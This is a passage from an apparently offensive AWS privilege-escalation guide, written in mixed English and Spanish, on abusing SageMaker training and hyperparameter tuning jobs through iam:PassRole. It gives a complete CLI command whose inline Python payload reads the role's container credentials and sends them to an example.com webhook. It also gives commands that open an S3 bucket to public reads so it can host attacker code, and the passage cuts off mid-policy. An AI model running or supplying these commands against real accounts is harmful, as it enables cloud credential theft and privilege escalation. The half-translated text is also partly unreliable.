 **Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions can launch a training job that ejecuta código arbitrario con el rol indicado. Usando un contenedor oficial de SageMaker y sobreescribiendo el entrypoint con un payload inline, no necesitas construir imágenes propias:

```bash
REGION=<region>
ROLE_ARN=<sagemaker-role-to-abuse>
IMAGE=763104351884.dkr.ecr.$REGION.amazonaws.com/pytorch-training:2.1-cpu-py310
ENV='{"W":"https://example.com/webhook"}'
OUTPUT_S3=s3://<existing-bucket>/training-output/
# El rol debe poder leer imágenes de ECR (p.e. AmazonEC2ContainerRegistryReadOnly) y escribir en OUTPUT_S3.

aws sagemaker create-training-job \
  --training-job-name privesc-train \
  --role-arn $ROLE_ARN \
  --algorithm-specification "{\"TrainingImage\":\"$IMAGE\",\"TrainingInputMode\":\"File\",\"ContainerEntrypoint\":[\"python\",\"-c\"],\"ContainerArguments\":[\"import os,urllib.request as u;m=os.environ.get('AWS_CONTAINER_CREDENTIALS_RELATIVE_URI');m and u.urlopen(os.environ['W'],data=u.urlopen('http://169.254.170.2'+m).read())\"]}" \
  --output-data-config "{\"S3OutputPath\":\"$OUTPUT_S3\"}" \
  --resource-config '{"InstanceCount":1,"InstanceType":"ml.m5.large","VolumeSizeInGB":50}' \
  --stopping-condition '{"MaxRuntimeInSeconds":600}' \
  --environment "$ENV"

# El payload se ejecuta en cuanto el job pasa a InProgress y exfiltra las credenciales del rol.
```

**Potential Impact:** Privesc to the SageMaker service role specified.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

An attacker with those permissions can launch a HyperParameter Tuning Job that runs attacker-controlled code under the supplied role. Script mode requires hosting the payload in S3, but all steps pueden automatizarse desde la CLI:

```bash
REGION=<region>
ROLE_ARN=<sagemaker-role-to-abuse>
BUCKET=sm-hpo-privesc-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION

# Allow public reads so any SageMaker role can pull the code
aws s3api put-public-access-block \
  --bucket $BUCKET \
  --public-access-block-configuration '{
    "BlockPublicAcls": false,
    "IgnorePublicAcls": false,
    "BlockPublicPolicy": false,
    "RestrictPublicBuckets": false
  }'

aws s3api put-bucket-policy --bucket $BUCKET --policy "{
  \"Version\": \"2012-10-17\",
  \"Statement\": [
    {
      \"Effect\": \"Allow\",
      \"Principal\": \"*\",
      \"Action\": \"s3:GetObject\",
      \"Resource\": \"arn:aws:s3:::$BUCKET/*\"
    }
```